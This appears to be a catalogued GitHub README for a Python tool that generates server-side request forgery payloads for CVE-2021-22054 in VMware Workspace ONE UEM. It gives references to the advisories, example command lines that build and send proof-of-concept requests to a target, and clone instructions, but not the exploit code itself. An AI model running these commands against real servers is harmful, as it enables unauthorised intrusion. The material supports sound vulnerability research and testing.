 # CVE-2021-22054

Generate SSRF payloads

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/MKSx](https://github.com/MKSx) |
| Url      | [https://github.com/MKSx/CVE-2021-22054](https://github.com/MKSx/CVE-2021-22054)                                               |
| Stars    | 3                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* airwatch* cve* cve-2021-22054* python* vmware

</details>

## Readme

# CVE-2021-22054
Generate SSRF payloads

#### References
https://blog.assetnote.io/2022/04/27/advisory-vmware-workspace-one-uem/

https://blog.assetnote.io/2022/04/27/vmware-workspace-one-uem-ssrf/

#### Examples
```bash

# generate POC
python3 ssrf.py --url https://target.com --url https://example.com --airwatch
python3 ssrf.py --url https://target.com --url https://example.com

# generate PPOC and send request
python3 ssrf.py --url https://target.com --url https://example.com --airwatch --request --proxy http://127.0.0.1:8080
python3 ssrf.py --url https://target.com --url https://example.com --airwatch --request --method POST --data '{"a":1}' -H 'Content-Type: application/json" --debug-headers
```

![image](https://user-images.githubusercontent.com/17793927/171933588-1b8d92f4-c751-40ca-a6bc-ad2102022bcf.png)

![image](https://user-images.githubusercontent.com/17793927/171933638-a0be0782-32cc-41db-b892-b49a9adcd574.png)



## Get the content

```
git clone https://github.com/MKSx/CVE-2021-22054
cd CVE-2021-22054
```

{% embed url="https://github.com/MKSx/CVE-2021-22054" %}

<figure><img src="https://avatars.githubusercontent.com/u/17793927?v=4" alt=""><figcaption><p>MKSx</p></figcaption></figure>
